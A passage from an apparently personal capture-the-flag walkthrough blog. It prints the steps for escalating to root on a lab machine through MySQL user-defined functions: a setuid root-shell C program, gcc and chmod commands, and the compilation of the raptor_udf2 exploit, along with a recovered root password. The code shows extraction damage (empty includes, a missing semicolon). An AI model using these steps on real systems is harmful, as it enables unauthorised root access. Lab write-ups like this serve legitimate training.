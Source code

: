 OH YEAH! we got it lets connect on ssh now

[![p](https://trickster0.files.wordpress.com/2015/10/p.png)](https://trickster0.files.wordpress.com/2015/10/p.png)

So now after checking around i noticed a folder called SECRET so i checked and saw 3 doors and by 3 doors i mean 3 folders name door1 door2 door3

[![a](https://trickster0.files.wordpress.com/2015/10/a.png)](https://trickster0.files.wordpress.com/2015/10/a.png)
i checked and run all the file files on each door and they needed input not to add that they were running as root so i though buffer overflowing time so i checked to see if ASLR was on

>cat /proc/sys/kernel/randomize__va_space
2

too bad :/ i tried some fuzzing anyway

[![seg](https://trickster0.files.wordpress.com/2015/10/seg.png)](https://trickster0.files.wordpress.com/2015/10/seg.png)

BOOM SEGFAULT! after a while i tried inputting but it didnt work although it worked on another door so i figured someone is switching the damn files! ofc i copied the right one on the /tmp folder and checked it for a while but i wasnt feeling like doing buffer overflow so i remembered that i had a username=root and a password=darkshadow so i ran

>ps aux | grep mysql

and it was running as root so...awesomeness since a while back i read an article about a method for privelege escalation through mysql! here it is --> 
[link](http://infamoussyn.com/page/3/)
although there is already in kali something similar in this path /usr/share/sqlmap/udf/mysql/linux/32/lib_mysqludf_sys.so_
anyways, so i created a C script in the /tmp folder to give me 0 UID priv on bash so we can do some stuff 
i called it set.c

>cat set.c


>#include 
#include 
#include 
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash")
}

and then i compiled it

>gcc set.c -o set
chmod 755 set

so we are ready and good to go after we will download the script raptor_udf2.c
and follow the script's commands

>gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
